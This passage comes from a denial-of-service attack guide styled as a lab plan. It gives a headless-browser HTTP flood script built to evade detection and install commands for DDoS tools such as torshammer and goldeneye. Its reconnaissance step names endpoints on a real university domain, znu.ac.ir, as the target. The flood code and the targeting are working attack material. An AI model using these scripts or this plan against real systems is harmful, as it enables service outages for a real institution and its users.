     ```bash
    docker-compose up
    ```

  - **Behavioral Evasion** :
  - Mimic legitimate traffic with randomized headers and delays.
  - Use headless browsers (e.g., Puppeteer) for realistic HTTP floods:

    ```python
    from pyppeteer import launch
    import asyncio

    async def browser_flood(target, count=100):
        browser = await launch(headless=True)
        for _ in range(count):
            page = await browser.newPage()
            await page.setUserAgent(f"Mozilla/5.0 {random.randint(1, 100)}")
            await page.goto(target)
            await page.close()
        await browser.close()

    asyncio.run(browser_flood("http://target_server"))
    ```

  ## 6. Lab Setup and Monitoring

  - **Environment** :
  - **Target** : Ubuntu server with Apache/Nginx, MySQL, and a web app (e.g., DVWA).
  - **Attacker** : Kali Linux with `hping3`, `slowloris`, `slowhttptest`, `loic`, `torshammer`, `goldeneye`, `sqlmap`, and Python/Scapy.
  - **Monitoring** : Prometheus/Grafana for server metrics, Wireshark for traffic analysis.
  - **Setup** :
  - Deploy target server with a web app (e.g., WordPress to mimic ZNU’s CMS).
  - Install tools on Kali:
    ```bash
    apt update && apt install hping3 slowhttptest torshammer python3-scapy
    git clone https://github.com/dotfighter/torshammer.git
    git clone https://github.com/Sheky/goldeneye.git
    ```
  - Configure Docker for distributed attacks:
    ```bash
    apt install docker.io docker-compose
    ```
  - **Monitoring** :
  - Capture traffic: `tcpdump -i eth0 -w attack.pcap`
  - Monitor server: Deploy Prometheus/Grafana to track CPU, memory, and bandwidth.
  - Check logs: `/var/log/apache2/access.log`, `/var/log/mysql/mysql.log`.

  ## 7. Testing Workflow

  1. **Reconnaissance** :

  - Identify target endpoints (e.g., `/news`, `/search` on `znu.ac.ir`).
  - Use `dirb` or Burp Suite to find dynamic pages.
